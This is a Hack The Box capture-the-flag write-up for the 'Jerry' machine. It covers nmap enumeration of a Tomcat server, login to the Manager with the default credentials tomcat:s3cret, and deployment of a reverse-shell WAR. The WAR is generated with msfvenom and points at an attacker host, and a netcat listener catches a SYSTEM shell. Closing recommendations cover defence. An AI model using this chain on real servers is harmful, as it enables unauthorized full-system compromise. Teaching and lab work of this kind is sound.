# HTB - Jerry

**IP Address:** `10.129.15.136`  
**OS:** Windows Server 2012 R2 (6.3.9600) / Apache Tomcat 7.0.88  
**Difficulty:** Easy  
**Tags:** #Tomcat #DefaultCredentials #WAR #ReverseShell #Windows

---
## Synopsis

Jerry is an easy Windows machine that showcases how exposing the Tomcat Manager interface with default credentials leads to remote code execution via WAR deployment. The obtained reverse shell runs as `NT AUTHORITY\SYSTEM`, allowing immediate access to both flags.

---
## Skills Required

- Basic web enumeration
- Familiarity with Apache Tomcat Manager
- Understanding of reverse shells

## Skills Learned

- Identifying Tomcat management interfaces and access control behavior
- Using leaked default credentials to access Manager
- Abusing WAR deployments to achieve RCE

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.15.136
```



The host responds, confirming it is reachable.

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.15.136 -oG allPorts
```

- `-p-`: Scan all 65,535 ports  
- `--open`: Show only open ports  
- `-sS`: SYN scan  
- `--min-rate 5000`: Increase speed  
- `-Pn`: Skip host discovery  
- `-oG`: Output in grepable format



Extract open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p8080 10.129.15.136 -oN targeted
cat targeted
```

- `-sC`: Run default NSE scripts  
- `-sV`: Detect service versions  
- `-oN`: Output in human-readable format  



**Findings:**

| Port | Service | Version/Description |
|------|---------|---------------------|
| 8080 | HTTP | Apache Tomcat 7.0.88 |

---
## 2. Service Enumeration

### 2.1 Tomcat Fingerprinting

Identify web technologies:

```bash
whatweb http://10.129.15.136:8080
```



Accessing the site shows the default Tomcat landing page with links to **Manager App** and **Host Manager**:



---
## 3. Foothold

### 3.1 Manager App (403) → Default Credentials

Clicking **Manager App** prompts for authentication. Providing invalid credentials triggers a **403 Access Denied** response that includes an example `tomcat-users.xml` snippet with:

- Username: `tomcat`
- Password: `s3cret`



Using `tomcat:s3cret` successfully authenticates to the Tomcat Web Application Manager:



---
### 3.2 WAR Upload → Reverse Shell

Tomcat Manager supports deploying applications via WAR upload. I generated a JSP reverse shell WAR with `msfvenom`:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.206 LPORT=443 -f war -o shell.war
```



After uploading `shell.war`, a new application context `/shell` is deployed:



I started a listener and triggered the payload by visiting `http://10.129.15.136:8080/shell/`:

```bash
nc -lvnp 443
```

---
## 4. Privilege Escalation

### 4.1 SYSTEM Shell (No Additional Privesc)

The reverse shell lands directly as `NT AUTHORITY\\SYSTEM` on this machine, so no extra privilege escalation is required.

```bash
whoami
cd C:\\Users\\Administrator\\Desktop\\flags
dir
type \"2 for the price of 1.txt\"
```



🏁 **User flag obtained**  
🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerate open services (Tomcat on 8080).
2. Use the Manager App 403 page to identify default credentials (`tomcat:s3cret`).
3. Login to Tomcat Manager and deploy a malicious WAR reverse shell.
4. Trigger `/shell/` and retrieve both flags as SYSTEM.

---
## Defensive Recommendations

- Remove or restrict access to Tomcat Manager/Host Manager (VPN-only, IP allowlisting, or bind to localhost).
- Enforce strong credentials and avoid default accounts.
- Monitor for unauthorized WAR deployments and suspicious new application contexts.

